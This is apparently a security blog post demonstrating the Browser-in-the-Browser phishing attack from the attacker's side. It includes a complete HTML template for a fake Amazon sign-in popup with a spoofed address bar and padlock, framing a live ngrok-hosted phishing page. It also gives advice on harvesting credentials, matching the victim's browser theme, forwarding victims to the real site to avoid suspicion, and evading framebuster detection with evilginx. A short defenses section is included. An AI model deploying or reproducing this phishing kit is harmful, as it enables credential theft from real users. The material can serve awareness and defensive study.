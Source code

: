 +++
title = "Browser-in-the-Browser (BitB) attack"
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["BitB"]
categories = ["Phishing"]
ShowToc = true
author = ["connar"]
+++

## What is the Browser-in-the-Browser attack
BitB attack is a phishing technique displayed by **mr.d0x** that essentially abuses the Single-Sign-On (SSO) window and modifies the shown url of the popped-up window to seem like a legitimate one.

Basically, the concept of this attack is to host a phishing website and inside the phishing website to create a legitimate looking SSO window (with a valid url) which is a phishing window as well.

## How does it work
The way this attack works is that you host a phishing website, provide a login/signup page with usual platforms like "Continue with email", "Continue with Facebook" etc and make the SSO window look legitimate (valid url) but the reality is that we will have control over that window to, because that window is fake as well.

## Demo
To start off, we need to go to mr.d0x github page and get the template windows for this attack:
- https://github.com/mrd0x/BITB

The files are just usual website files (html, css, js, icons). Example of a window before we modify it is the following:
![original sso window](/posts/bitb/original_SSO_window.png)

In the github repo, there are multiple templates based on the browser and the theme (dark / light). You need to know how the victim has configured his/her browser in order to use the right template so evade suspicions. You can either take a guess based on statistics (what is the most used theme) or write further code in the website to detect the theme and thus use the appropriate theme:
- https://stackoverflow.com/questions/50840168/how-to-detect-if-the-os-is-in-dark-mode-in-browsers


Now that we have chosen a theme, let's host a phishing website. I will go with blackeye one since I have made [a post about it]({{< ref "/posts/phishingsite" >}} "blackeye post").  
We first fire up our phishing website. It's going to be an amazon one:  
![setup phishing website](/posts/bitb/setup_phishingServer.png)

Afterwards, we need to find the appropriate amazon.svg file and place it in the theme folder we are using.
The final html page should be something like the following:
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="stylesheet" href="style.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
</head>
<body>
<div id="window">
<!-- Title bar start -->
<div id="title-bar-width">
	<div id="title-bar">
		<div style="margin-top:5px;">
			<img src="./amazon.svg" width="20px" height="15px" id="logo">
			<span id="logo-description">Please log to your account.</span>
		</div>

		<div>
			<span id="minimize">&#8212;</span>
			<span id="square">□</span>
			<span id="exit">✕</span>
		</div>
	</div>
	<div id="url-bar">
		<img src="./ssl.svg" width="20px" height="20px" id="ssl-padlock">
		<span id="domain-name">https://www.amazon.com</span>
		<span id="domain-path">/signin.html</span>
	</div>
</div>
<!-- Content start -->
<iframe id="content" src="https://44e5-46-177-73-144.ngrok-free.app" frameBorder="0"></iframe>
</div>
</body>
<script src="script.js"></script>
</html>
```

The victim should now see the following window, which seems legitimate:
![amazon fake login](/posts/bitb/amazon_fake_login.png)

Upon entering the credentials, we should see them in our server:
![stole creds](/posts/bitb/stole_credentials.png)

We could also write code to forward the user to the real login of the website we mimiced and pass the given creds as parameters to avoid further suspicion.

## Defenses
The way this attack was initially detected was by trying to drag the SSO window out of the browser window. If the SSO window was not able to escape the outter window, this meant that it was fake.  

Later on, a plugin came out that would identify such windows by the use of their iframes and warn users about this attack.  This is done with a technique known as frame busting, a technique now used by most of the known browsers. This leads to BitB being heavily detected and can burn your phishing domain. In order to avoid BitB being detected, you must somehow heavily obfuscate/hide it.  
So if we somehow managed to solve the defense mechanism that checks for iframes, we would have a successful BitB phishing attack, which brings us to the next section on how to implement this attack without iframes and with the help of evilginx.

## BitB without iframes
In this technique, apache and evilginx is utilized alongside with many css and html tricks, avoiding the use of iframes and thus making a more complicated ("obfuscated") approach that is not that easy to detect. As the developer of this developed technique stated in his github repo: *Framebusters target iframes specifically, so the idea is to create the BITB effect without the use of iframes, and without disrupting the original structure/content of the proxied page. This can be achieved by injecting scripts and HTML besides the original content using search and replace (aka substitutions), then relying completely on HTML/CSS/JS tricks to make the visual effect. We also use an additional trick called "Shadow DOM" in HTML to place the content of the landing page (background) in such a way that it does not interfere with the proxied content, allowing us to flexibly use any landing page with minor additional JS scripts.*

The result is a fully working, undetected to framebusters SSO window using the bitb technique:  
![frameless bitb](/posts/bitb/frameless_bitb.png)

There are many things going on in frameless BitB but **Wael Masri** does a great job explaining the ins and outs of this technique and how you could replicate it:  
<iframe width="760" height="315" src="https://www.youtube.com/embed/luJjxpEwVHI" frameborder="0" allowfullscreen></iframe>

**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://mrd0x.com/browser-in-the-browser-phishing-attack/">Mr.d0x: <i>Browser In The Browser (BITB) Attack</i></a></li>
        <li> [2] <a href="https://cofense.com/blog/browser-in-the-browser-bitb-attack-takes-advantage-of-sso-trust/">Cofense email security: <i>Browser-in-the-Browser (BitB) Attack Takes Advantage of Single-Sign-On Trust</i></a></li>
        <li> [3] <a href="https://www.youtube.com/watch?v=ntS7WHaznjI">Infinite Logins: <i>Browser in the Browser (BITB) Phishing Technique</i></a></li>
        <li> [3] <a href="https://www.youtube.com/watch?v=luJjxpEwVHI">Wael Masri: <i>How To: Evilginx + BITB | Browser In The Browser without iframes in 2024</i></a></li>
        <li> [4] <a href="https://github.com/waelmas/frameless-bitb">waelmas: <i>frameless-bitb</i></a></li>
    </ul>
</blockquote>